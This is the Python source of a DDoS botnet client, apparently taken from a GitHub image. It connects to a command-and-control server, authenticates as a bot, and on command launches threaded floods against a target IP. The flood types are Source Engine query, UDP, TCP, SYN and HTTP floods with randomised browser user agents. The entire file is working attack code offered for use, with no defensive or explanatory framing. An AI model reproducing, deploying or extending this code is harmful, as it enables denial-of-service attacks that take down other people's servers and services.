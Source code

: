 
import socket 
import threading
import time
import random

# Configuration
C2_ADDRESS  = '127.0.0.1'
C2_PORT     = 101

base_user_agents = [
    'Mozilla/%.1f (Windows; U; Windows NT {0}; en-US; rv:%.1f.%.1f) Gecko/%d0%d Firefox/%.1f.%.1f'.format(random.uniform(5.0, 10.0)),
    'Mozilla/%.1f (Windows; U; Windows NT {0}; en-US; rv:%.1f.%.1f) Gecko/%d0%d Chrome/%.1f.%.1f'.format(random.uniform(5.0, 10.0)),
    'Mozilla/%.1f (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/%.1f.%.1f (KHTML, like Gecko) Version/%d.0.%d Safari/%.1f.%.1f',
    'Mozilla/%.1f (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/%.1f.%.1f (KHTML, like Gecko) Version/%d.0.%d Chrome/%.1f.%.1f',
    'Mozilla/%.1f (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/%.1f.%.1f (KHTML, like Gecko) Version/%d.0.%d Firefox/%.1f.%.1f',
]

def rand_ua():
    return random.choice(base_user_agents) % (random.random() + 5, random.random() + random.randint(1, 8), random.random(), random.randint(2000, 2100), random.randint(92215, 99999), (random.random() + random.randint(3, 9)), random.random())

def attack_vse(ip, port, secs):
    payload = b'\xff\xff\xff\xffTSource Engine Query\x00' # read more at https://developer.valvesoftware.com/wiki/Server_queries
    while time.time() < secs:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.sendto(payload, (ip, port))

def attack_udp(ip, port, secs, size):
    while time.time() < secs:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        dport = random.randint(1, 65535) if port == 0 else port
        data = random._urandom(size)
        s.sendto(data, (ip, dport))

def attack_tcp(ip, port, secs, size):
    while time.time() < secs:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((ip, port))
            while time.time() < secs:
                s.send(random._urandom(size))
        except:
            pass

def attack_syn(ip, port, secs):
    while time.time() < secs:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.setblocking(0)
        try:
            dport = random.randint(1, 65535) if port == 0 else port
            s.connect((ip, dport)) # RST/ACK or SYN/ACK as response
        except:
            pass

def attack_http(ip, secs):
    while time.time() < secs:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((ip, 5050))
            while time.time() < secs:
                s.send(f'GET / HTTP/1.1\r\nHost: {ip}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())
        except:
            s.close()

def main():
    c2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c2.setsockopt(socket.SOL_SOCKET, socket.SO_KEEPALIVE, 1)

    while 1:
        try:
            c2.connect((C2_ADDRESS, C2_PORT))

            while 1:
                data = c2.recv(1024).decode()
                if 'Username' in data:
                    c2.send('BOT'.encode())
                    break

            while 1:
                data = c2.recv(1024).decode()
                if 'Password' in data:
                    c2.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                    break

            break
        except:
            time.sleep(120) # retry in 2 mins if connection fails

    while 1:
        try:
            data = c2.recv(1024).decode().strip()
            if not data:
                break

            args = data.split(' ')
            command = args[0].upper()

            if command == '.VSE':
                ip = args[1]
                port = int(args[2])
                secs = time.time() + int(args[3])
                threads = int(args[4])

                for _ in range(threads):
                    threading.Thread(target=attack_vse, args=(ip, port, secs), daemon=True).start()

            elif command == '.UDP':
                ip = args[1]
                port = int(args[2])
                secs = time.time() + int(args[3])
                size = int(args[4])
                threads = int(args[5])

                for _ in range(threads):
                    threading.Thread(target=attack_udp, args=(ip, port, secs, size), daemon=True).start()

            elif command == '.TCP':
                ip = args[1]
                port = int(args[2])
                secs = time.time() + int(args[3])
                size = int(args[4])
                threads = int(args[5])

                for _ in range(threads):
                    threading.Thread(target=attack_tcp, args=(ip, port, secs, size), daemon=True).start()

            elif command == '.SYN':
                ip = args[1]
                port = int(args[2])
                secs = time.time() + int(args[3])
                threads = int(args[4])

                for _ in range(threads):
                    threading.Thread(target=attack_syn, args=(ip, port, secs), daemon=True).start()

            elif command == '.HTTP':
                ip = args[1]
                secs = time.time() + int(args[2])
                threads = int(args[3])

                for _ in range(threads):
                    threading.Thread(target=attack_http, args=(ip, secs), daemon=True).start()

            elif command == 'PING':
                c2.send('PONG'.encode())

        except:
            break

    c2.close()

    main()

if __name__ == '__main__':
    try:
        main()
    except:
        pass
